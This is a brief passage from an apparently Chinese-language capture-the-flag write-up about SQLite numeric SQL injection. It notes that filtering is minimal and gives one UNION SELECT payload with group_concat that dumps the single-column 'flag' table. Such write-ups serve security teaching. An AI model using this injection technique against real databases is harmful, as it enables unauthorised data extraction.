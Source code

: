 ![8-2.png](8-2.png)

### SQlite 数字型注入

至此可以确定是 SQLite 数据库且几乎没有过滤, 根据刚刚的结果已经知道了有一张 flag 表, 其只有一列, 名为 flag"

```
?id=0 union select 1,group_concat(flag),3,4,5 from flag--
```

爆出 flag;
